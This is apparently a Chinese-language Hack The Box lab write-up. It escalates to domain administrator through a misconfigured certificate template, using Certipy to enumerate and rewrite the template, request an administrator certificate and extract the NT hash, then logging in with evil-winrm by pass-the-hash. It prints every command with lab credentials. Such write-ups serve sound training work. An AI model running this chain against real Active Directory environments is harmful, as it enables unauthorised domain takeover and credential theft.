 

**查看用户 ca_svc 的属性，我们发现他们是“证书发布者”组的成员。在 BloodHound 中查看该组的描述，我们看到该组成员被允许将证书发布到目录中。这表明存在 Active Directory 证书服务。**

![Pasted image 20250724172128](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724172128.png)

**然后，我们使用 ca_svc 的凭据通过 Certipy （https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation）枚举证书模板和配置，Certipy 是一个用于枚举和利用 Active Directory 证书服务（ADCS)漏洞的工具**

```
certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.129.232.128 -stdout
```

**我们看到DunderMifflinAuthentication模板是易受攻击的，因为Cert发布者组具有危险权限。让我们首先将证书模板修改为使其可被ca_svc利用。我们使用证书模板命令来更新模板配置，同时保存原始设置的备份。（-save-old 在新版本的工具中没有该指令，使用-save-configuration dunder_backup.json替代）**

```
certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication -save-old -dc-ip 10.129.232.128
```

![image-20250726212520108](E:\资料\HTB靶场解析\HTB-wp\image-20250726212520108.png)
![image-20250726212536100](E:\资料\HTB靶场解析\HTB-wp\image-20250726212536100.png)



**此命令更新模板以允许不需要管理器的证书请求审批并确保启用了客户端身份验证扩展密钥使用。有了这个设置，我们可以向高度特权的用户（如Administrator）请求证书。如果我们运行证书再次发现，我们看到模板易受ESC1， ESC2， ESC3和ESC4的攻击。这证实了我们可以充分利用此证书模板来模拟任何用户，包括域管理员。**

**我们可以通过请求一个模拟域的证书来继续利用这一点管理员。**

```
certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb -dns dc01.sequel.htb
```

**然后我们使用生成的证书作为管理员进行身份验证，并提取NT哈希**

```
certipy auth -pfx administrator.pfx -domain sequel.htb
```

**然后通过hash进行登录**

```
evil-winrm -i 10.129.232.128 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

